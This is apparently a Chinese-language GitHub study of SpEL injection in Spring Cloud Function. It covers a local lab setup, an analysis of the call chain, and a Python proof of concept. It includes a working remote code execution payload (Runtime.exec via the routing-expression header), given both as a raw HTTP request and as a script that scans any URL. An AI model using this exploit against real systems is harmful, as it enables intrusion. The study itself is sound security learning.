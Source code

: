 # SPeL-injection-study

共分为环境搭建及漏洞复现、原理学习、POC编写三部分

一、环境搭建

IDEA新建spring initializr

![图片](https://user-images.githubusercontent.com/90664154/164909353-8e59c6c2-b38d-4bdb-8dcf-251abfb2dde3.png)
![图片](https://user-images.githubusercontent.com/90664154/164909361-5067e7e9-1afa-477a-a581-d8811f7b4cb6.png)
![图片](https://user-images.githubusercontent.com/90664154/164909390-ef235ebe-5f69-4004-ac6a-14c1746dd062.png)
这里生成jar包
![图片](https://user-images.githubusercontent.com/90664154/164909399-52db580e-c85e-46aa-96aa-6aa7996a9393.png)

在终端安装jdk11

java -jar jojoSPeL-0.01-SNAPSHOT.jar  部署jar包

![图片](https://user-images.githubusercontent.com/90664154/164909424-929dd7da-900d-44bb-923c-d9d5b22f5f4a.png)

访问127.0.0.1:8080验证
![图片](https://user-images.githubusercontent.com/90664154/164909431-224e18e6-e58e-4613-abd9-84087e0db1f7.png)

发送POC验证
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

jojo

![图片](https://user-images.githubusercontent.com/90664154/164909439-3dd2662e-1eb7-4231-8ec6-95a7f2a262eb.png)

二、漏洞分析
header头的spring.cloud.function.routing-expression参数调用链：
org.springframework.cloud.function.web.mvc.FunctionController中,
body-> processReques(RoutingFunction)-> FunctionInvocationWrapper.apply-> doApply-> RoutingFunction(apply)-> org.springframework.cloud.function.context.config.RoutingFunction(route)-> this.functionFromExpression()，最终执行，这其中的安全过滤函数不充分
![图片](https://user-images.githubusercontent.com/90664154/164909446-6745d62c-4204-4b51-8efe-f792e9893166.png)

三、Poc编写
# coding=UTF-8
import requests
import sys
import base64
import urllib3
urllib3.disable_warnings()

def calculator(url,ip,port):
    payload ='T(java.lang.Runtime).getRuntime().exec("calc")'
    data ='jojo'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'
    allurl = url + path
    try:
        req=requests.post(url=allurl,headers=headers,data=data,verify=False,timeout=3)
        code =req.status_code
        text = req.text
        rsp = '"error":"Internal Server Error"'

        if code == 500 and rsp in text:
            print('{url} 存在漏洞')
        else:
            print('{url} 不存在漏洞')

    except requests.exceptions.RequestException:
        print('[-]{url} 检测超时')
        pass
    except:
        print('[-]{url} 检测异常')
        pass

if __name__ == '__main__' :
    try:
        cmd1 =sys.argv[1]
        cmd2 =sys.argv[2]
        cmd3 =sys.argv[3]
        calculator(cmd1,cmd2,cmd3)
    except:
        print('python jojoSPel.py url ip port')
        pass
